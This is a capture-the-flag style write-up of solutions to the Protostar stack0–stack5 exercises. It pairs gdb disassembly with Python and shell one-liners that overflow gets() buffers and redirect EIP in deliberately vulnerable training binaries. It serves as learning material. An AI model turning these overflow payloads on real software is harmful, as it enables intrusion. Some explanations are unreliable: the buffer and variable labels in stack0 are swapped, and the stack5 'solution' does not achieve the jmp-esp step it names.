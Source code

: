 # the solutions of protostar

## table of content

- [the solutions of protostar](#the-solutions-of-protostar)
  - [table of content](#table-of-content)
  - [stack0](#stack0)
    - [stack0 solution](#stack0-solution)
  - [stack1](#stack1)
    - [stack1 solution](#stack1-solution)
  - [stack2](#stack2)
    - [stack2 solution](#stack2-solution)
  - [stack3: python3 encoding(bad characters)](#stack3-python3-encodingbad-characters)
    - [stack3 solution](#stack3-solution)
  - [stack4: modify EIP](#stack4-modify-eip)
    - [stack4 solution](#stack4-solution)
  - [stack5: jmp esp](#stack5-jmp-esp)
    - [stack5 solution](#stack5-solution)

## stack0

```asm
(gdb)disassemble
Dump of assembler code for function main:
=> 0x080483f4 <+0>:     push   ebp
   0x080483f5 <+1>:     mov    ebp,esp
   0x080483f7 <+3>:     and    esp,0xfffffff0
   0x080483fa <+6>:     sub    esp,0x60                    # allocating space. char buffer[64]
   0x080483fd <+9>:     mov    DWORD PTR [esp+0x5c],0x0    # volatile int modified
   0x08048405 <+17>:    lea    eax,[esp+0x1c]
   0x08048409 <+21>:    mov    DWORD PTR [esp],eax
   0x0804840c <+24>:    call   0x804830c <gets@plt>
   0x08048411 <+29>:    mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:    test   eax,eax
   0x08048417 <+35>:    je     0x8048427 <main+51>
   0x08048419 <+37>:    mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:    call   0x804832c <puts@plt>
   0x08048425 <+49>:    jmp    0x8048433 <main+63>
   0x08048427 <+51>:    mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:    call   0x804832c <puts@plt>
   0x08048433 <+63>:    leave
   0x08048434 <+64>:    ret
```

- `[esp+0x1c]`: the variable
- `[esp+0x5c]`: the stack buffer

- when input length > buffer.size, the bottom of the stack (ebp) gets overwrited

- **Think about the pointer. `buffer[65]` points to a higher address than `buffer[0]`.**
- The actual memory location of the `buffer` could be printed using `printf("%p\n", (void *) buffer)`, or `$esp+0x1c` @ `*main + 17`.
- Hence when the buffer overflows, the variable stored at `[esp+0x5c]` @ `*main + 9`, which is higher than the aforementioned `buffer`, will be overwritten eventually.

### stack0 solution

```sh
python3 -c "print('A' * 80)" | ./stack0
```

## stack1

```asm
   0x080484ab <+71>:    cmp    eax,0x61626364
```

```gdb
r $(python3 -c 'print("A" * 64 + "BCDEFGHIJKLMNOPQRSTUVWXYZ")')
r $(python3 -c "print(b'A' * 64 + b'\x42\x43\x44\x45')")
  # the "b'" occupies 2 bytes
b *main + 71
info registers    # eax 0x45444342 
```

### stack1 solution

```sh
# ./stack1 $(python3 -c "print(b'A' * 62 + b'\x64\x63\x62\x61')")
./stack1 $(python3 -c "print('A' * 64 + '\x64\x63\x62\x61')")
```

## stack2

```gdb
b *main+84
```

### stack2 solution

```sh
GREENIE=$(python3 -c "print('A' * 64 + '\x0a\x0d\x0a\x0d')");export GREENIE;printenv GREENIE;
  # if use b'', the \x0a will be literally parsed as '\' 'x' '0' 'a'
./stack2
```

## stack3: python3 encoding(bad characters)

```asm
  0x08048475 <+61>:    call   eax 
```

- find out the target binary

```sh
objdump -d stack3 | grep win
  # @ 0x08 04 84 24 
```

- redirect the `fp();` call. Problem: bad chars

```gdb
b *main + 61
r <<< $(python3 -c "print('A' * 120)")
r <<< $(python3 -c "print('A' * 64 + '\x24\x84\x04\x08')")
  # bad chars. The '\x84' get parsed as '\xc2\x84' in python3. Possible UTF-8 <control> string.
  # solution: use echo -e -n
```

### stack3 solution

```sh
./stack3 <<< $(python3 -c "print('A' * 64)"|xargs echo -en;echo -en '\x24\x84\x04\x08')
```

## stack4: modify EIP

```asm
(gdb) disassemble main
Dump of assembler code for function main:
  0x08048408 <+0>:     push   ebp
  0x08048409 <+1>:     mov    ebp,esp
  0x0804840b <+3>:     and    esp,0xfffffff0                  # padding, esp <- ebp-0xb
  0x0804840e <+6>:     sub    esp,0x50
  0x08048411 <+9>:     lea    eax,[esp+0x10]
  0x08048415 <+13>:    mov    DWORD PTR [esp],eax
  0x08048418 <+16>:    call   0x804830c <gets@plt>
  0x0804841d <+21>:    leave
  0x0804841e <+22>:    ret
End of assembler dump. 
```

```sh
objdump -d ./stack4
  # 080483f4
```

```gdb
b *main + 22
r <<< $(python3 -c "print('A' * 120)")
r <<< $(python3 -c "print('A' * (64 + int(0xb + 0x4)))"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

### stack4 solution

```sh
./stack4 <<< $(python3 -c "print('A' * (64 + int(0xb + 0x1)))"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

## stack5: jmp esp

```asm
(gdb) disassemble main
Dump of assembler code for function main:
  0x080483c4 <+0>:     push   ebp
  0x080483c5 <+1>:     mov    ebp,esp
  0x080483c7 <+3>:     and    esp,0xfffffff0
  0x080483ca <+6>:     sub    esp,0x50
  0x080483cd <+9>:     lea    eax,[esp+0x10]
  0x080483d1 <+13>:    mov    DWORD PTR [esp],eax
  0x080483d4 <+16>:    call   0x80482e8 <gets@plt>
  0x080483d9 <+21>:    leave
  0x080483da <+22>:    ret
End of assembler dump.
```

- info:
  + `leave` === `# mov esp, ebp -> pop ebp`. The `pop ebp` means esp += 4
  + `ret` esp += 4 again, and `eip <- [esp]`, which is the so-called `JMP esp`

```gdb
b *main + 21
info proc mappings
   # start      end           size        offset objfile
   # 0xffbf2000 0xffc13000    0x21000        0x0 [stack]
./stack5 <<< $(python3 -c "print('A' * (64 + int(0xb + 0x1)))"|xargs echo -en;echo -en '\xf4\x83\x04\x08')

   # objdump -d ./stack5
   # 080483c4 <main>

   # leave                  esp=0xfff34180 ebp=0xfff341d8 -> esp=0xfff341dc
     # (gdb) x/4wx $esp
     # 0xfff341dc:     0xf7d0ff21      0x00000001      0xfff34274      0xfff3427c 
   # ret
     # eip=0xf7d0ff21
r <<< $(python3 -c "print('A' * 76 )"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

### stack5 solution

```sh
./stack5 <<< $(python3 -c "print('A' * 76 )"|xargs echo -en;echo -en '\xf4\x83\x04\x08')
```

- A problem: to `jmp esp`, `ebp` must be overwritten (modern system stack cookie)
